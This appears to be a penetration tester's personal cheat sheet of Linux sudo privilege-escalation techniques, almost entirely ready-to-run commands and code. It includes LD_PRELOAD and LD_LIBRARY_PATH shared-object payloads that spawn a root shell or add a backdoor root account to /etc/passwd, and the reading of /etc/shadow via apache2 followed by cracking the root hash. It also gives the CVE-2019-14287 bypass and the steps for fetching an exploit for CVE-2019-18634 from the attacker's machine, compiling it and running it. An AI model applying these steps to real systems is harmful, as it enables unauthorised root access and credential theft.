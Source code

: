 
#### Sudo bins
```bash - target
sudo -l
```

```firefox
https://gtfobins.github.io/
```

Search what you're looking for, und "Sudo" section.

#### Text editor
Say we find a tool we can run as sudo, knife in this example.  In the manpage, it describes we can edit in a text editor.

![[Pasted image 20220922105222.png]]

```bash - target
sudo knife data bag create 1 2 -e vi
```

```bash - target
:!/bin/sh
```

#### Sudo shell escaping
```bash - kali
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/
```

#### LD Preload
```bash - target
sudo -l
```

![[Pasted image 20221115134849.png]]

```bash - target
nano shell.c
```

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash - target
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now just run the following command with any option from "sudo -l" :
MAKE SURE to use the full path for the shell.so file.

```bash - target
sudo LD_PRELOAD=/home/user/shell.so apache2
```

```bash - target
id
```

#### LD_LIBRARY_PATH
Here we have a elf file on a cron schedule for every minute.  We can write to /usr/local/lib/dev

![[Pasted image 20220318123807.png]]

We go to /usr/bin and try to execute log-sweeper, we find a message:
![[Pasted image 20220318124218.png]]

We can create a malicious utils.c:

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' >> /etc/passwd");
}
```

```bash - target
gcc -fPIC -shared -o utils.so utils.c -nostartfiles
```

Now just put the ustils.so file in the writable LD_LIBRARY_PATH and wait for the cron job to execute.

```bash - target
su newroot
```

```bash - target
password
```

#### Apache2

1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

 >(root) NOPASSWD: /usr/sbin/apache2

Note that apache2 is in the list.

2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand.

3. Run apache2 using sudo , and provide it the /etc/shadow file as a config file:

```bash - target
sudo apache2 -f /etc/shadow
```

Syntax error on line 1 of /etc/shadow:

```Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration```

![[Pasted image 20211230153252.png]]

4. Extract the root user’s hash from the file.

5. Save the password hash in a file (e.g. hash.txt):

```echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```

6. Crack the password hash using john:

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])```

7. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)


#### sudo -l !root

```
https://www.exploit-db.com/exploits/47502
```

![[Pasted image 20211230153039.png]]

```bash - target
sudo -u#-1 /bin/bash
```

![[Pasted image 20211230153054.png]]

#### sudo -l different user
1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

![[Pasted image 20211230153125.png]]

2. For each program in the list, see if there is a shell escape sequence on GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/))

3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.

```bash - target
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```


#### CVE 2019-14287
```firefox - kali
https://www.exploit-db.com/exploits/47502
```

```bash - target
sudo -u#-1 /bin/bash
```

#### CVE-2019-18634
```bash - target
sudo -V
```

```bash - kali
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
```

```bash - kali
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
```

```bash - kali
https://www.sudo.ws/security/advisories/pwfeedback/
```

```bash - target
wget http://$KALI/exploit.c
```

```bash - target
gcc exploit.c -o exploit
```

```bash - target
./exploit
```

Hit enter a time or two.
